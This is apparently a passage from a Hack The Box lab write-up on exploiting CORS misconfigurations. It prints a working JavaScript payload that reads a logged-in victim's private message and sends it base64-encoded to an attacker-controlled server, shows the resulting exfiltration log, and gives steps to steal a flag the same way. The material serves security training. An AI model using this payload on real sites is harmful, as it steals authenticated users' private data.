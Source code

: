 ```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://cors-misconfigs.htb/profile.php', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');
	  var msg = encodeURIComponent(doc.getElementById('private-message').innerHTML);
      location = 'https://10.10.15.52:4443/log?data=' + btoa(msg);
    };
    xhr.send();
</script>
```
After viewing the payload and triggering it, we can confirm that it only exfiltrates the specified HTML tags:

```bash
kabaneridev@htb[/htb]$ python3 server.py 

10.10.14.144 - - [31/Dec/2024 18:39:46] code 404, message File not found
10.10.14.144 - - [31/Dec/2024 18:39:46] "GET /log?data=VGhpcyUyMGlzJTIwYSUyMHNlY3JldCUyMG1lc3NhZ2Uu HTTP/1.1" 404 -
```
Note: In the lab, your web browser's settings regarding third-party cookies might prevent your exploit code from working correctly. However, these issues will not occur when delivering the exploit to the victim. Make sure to keep an eye out for errors concerning third-party cookies in the JavaScript console and adjust the browser settings accordingly.

## CORS Misconfiguration Questions

**Question 1: Identify and exploit a CORS misconfiguration to conduct a CSRF attack and exfiltrate the flag.**

1. Ensure `exploitserver.htb` and `cors-misconfigs.htb` are in your `/etc/hosts` file.
2. Navigate to `https://cors-misconfigs.htb` and log in with `htb-stdnt:Academy_student!`.
3. Identify the CORS misconfiguration by inspecting network requests (e.g., in Burp Suite) and looking for `Access-Control-Allow-Origin` headers that reflect your `Origin` header.
4. Create a payload on `exploitserver.htb` to exploit the identified misconfiguration. The payload should make an authenticated cross-origin request to `https://cors-misconfigs.htb/data.php` and exfiltrate the response to your HTTPS exfiltration server (e.g., `https://YOUR_IP:YOUR_PORT/log?data=` + `btoa(xhr.response)`).
5. Deliver the payload to the victim via `https://exploitserver.htb/deliver`.
6. Start your HTTPS exfiltration server (as described in the lab environment section).
7. After a few moments, the victim's browser will trigger the exploit, and you will receive the exfiltrated data (including the flag) on your HTTPS server.
